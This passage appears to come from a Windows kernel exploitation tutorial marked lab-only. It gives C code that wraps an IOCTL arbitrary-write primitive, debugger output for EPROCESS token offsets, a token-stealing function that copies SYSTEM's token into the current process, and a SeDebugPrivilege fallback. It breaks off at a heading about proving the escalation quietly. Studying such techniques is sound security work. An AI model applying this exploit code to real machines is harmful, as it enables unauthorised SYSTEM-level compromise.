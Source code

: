 ### 1) Build a minimal AW primitive

Assume the IOCTL lets you write 8 bytes to an **arbitrary kernel address**. Wrap it:

```c
// User-mode helper around the IOCTL primitive (lab-only)
BOOL kwrite8(HANDLE hDev, ULONGLONG kaddr, ULONGLONG value) {
    struct { ULONGLONG where; ULONGLONG what; } in = { kaddr, value };
    DWORD ret=0;
    return DeviceIoControl(hDev, 0x222003, &in, sizeof(in), NULL, 0, &ret, NULL);
}
```

### 2) Locate SYSTEM’s token and current EPROCESS

In the lab, rely on symbols to confirm offsets; in a “portable” exploit you pattern-search fields.

```text
# KD (local kernel debugging)
> !process 0 1
   PROCESS ffffae0a`5c5d9080  SessionId: none  Cid: 0004    SYSTEM ...
> dt nt!_EPROCESS ffffae0a`5c5d9080 Token UniqueProcessId ActiveProcessLinks
   +0x4b8 Token : _EX_FAST_REF
   +0x440 UniqueProcessId : Ptr64 Void
   +0x448 ActiveProcessLinks : _LIST_ENTRY
```

Suppose `Token` offset is `0x4b8` on this build. Find your process’s EPROCESS similarly (`!process 0 1`, match the `Cid` to your PID).

### 3) Copy the token pointer (low-bit masking!)

Tokens are stored with low **reference bits**—you must **preserve** those low bits when copying. Typically, mask out the low 4 bits when reading and keep the destination’s low bits when writing.

```c
// Lab-only elevation using AW write
BOOL steal_token(HANDLE hDev, ULONG64 eprocess_sys, ULONG64 eprocess_me) {
    ULONG64 token_sys = 0, token_me = 0;
    // Use companion arbitrary READ or derive from a field copy; if READ is missing,
    // find another plan (e.g., duplicate handle path). For illustration assume we have kread8.
    kread8(hDev, eprocess_sys + 0x4b8, &token_sys);
    kread8(hDev, eprocess_me  + 0x4b8, &token_me);

    ULONG64 new_token = (token_sys & ~0xF) | (token_me & 0xF);
    return kwrite8(hDev, eprocess_me + 0x4b8, new_token);
}
```

If your primitive is **write-only**, you can scan **ActiveProcessLinks** for PID 4 by walking the list with reads via the same IOCTL (many bugs allow both). In the “write-only” worst case, escalate via **SEP\_TOKEN\_PRIVILEGES** bits in the current token (set **SeDebugPrivilege** `Present/Enabled/EnabledByDefault`), which you can guess from structure layout and constant bit positions.

### 4) Prove it quietly

